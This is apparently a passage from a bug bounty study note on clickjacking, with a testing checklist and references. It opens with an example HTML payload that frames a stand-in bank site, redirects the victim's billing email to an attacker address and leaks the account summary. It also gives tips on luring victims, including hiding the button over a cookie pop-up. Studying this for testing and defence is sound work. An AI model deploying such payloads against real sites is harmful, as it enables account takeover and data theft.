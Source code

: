 ```html
 <!--changing the victim email first to your own account-->
 <iframe 
 src="https://bank.example.com/change_billing_email?email=attacker@attacker.com" 
 width="500" height="500">
 </iframe>
 <!--then make the victim send an account summary to your email address to leak the information contained in the account summary report-->
 <iframe src="https://bank.example.com/send_summary" width="500" height="500">
 </iframe>
</html>
```
- you might be able to collect data including the street address, phone numbers, and credit card information associated with the account!
- Note that for this attack to succeed, the victim user would have to click the attacker’s site twice

## Chaining with CSRF 
Exploit Clickjacking to achieve CSFRF
look at [CSRF](CSRF.md) for more info
# A Note on Delivering the Clickjacking Payload
Often in bug bounty reports, you’ll need to show companies that real attackers could effectively exploit the vulnerability you found. That means you need to understand how attackers can exploit clickjacking bugs in the wild

For the attack to succeed, the attacker would have to construct a site that is convincing enough for users to click
check out the Social-Engineer Toolkit(https://github.com/trustedsec/social-engineer-toolkit/)

>[!Vickie Li]
>In my experience, the most effective location in which to place the hidden button is directly on top of a Please Accept That This Site Uses Cookies! pop-up. Users usually click this button to close the window without much thought

# Finding Your First Clickjacking Vulnerability!
 1. Spot the state-changing actions on the website and keep a note of their URL locations. Mark the ones that require only mouse clicks to execute for further testing 
 2. Check these pages for the X-Frame-Options, Content-Security-Policy header, and a SameSite session cookie. If you can’t spot these protective features, the page might be vulnerable!
 3. Craft an HTML page that frames the target page, and load that page in a browser to see if the page has been framed
 4. Confirm the vulnerability by executing a simulated clickjacking attack on your own test account
 5. Craft a sneaky way of delivering your payload to end users, and consider the larger impact of the vulnerability 
 6. Draft your first clickjacking report!
# References
- [Bug Bounty Bootcamp book](https://www.amazon.eg/-/en/Bug-Bounty-Bootcamp-Reporting-Vulnerabilities/dp/1718501544)
- [PortsWigger-Web Security Academy | Clickjacking](https://portswigger.net/web-security/clickjacking)
-  [WSTG - v4.2 | Clickjacking Testing](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/09-Testing_for_Clickjacking)
-  [javascript info](https://javascript.info/clickjacking)
- [HackTricks | clickjacking](https://book.hacktricks.xyz/pentesting-web/clickjacking)
- [book of Bug Bounty Tips](https://gowsundar.gitbook.io/book-of-bugbounty-tips/clickjacking)
- [OWASP Cheat Sheet | Clickjacking Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)
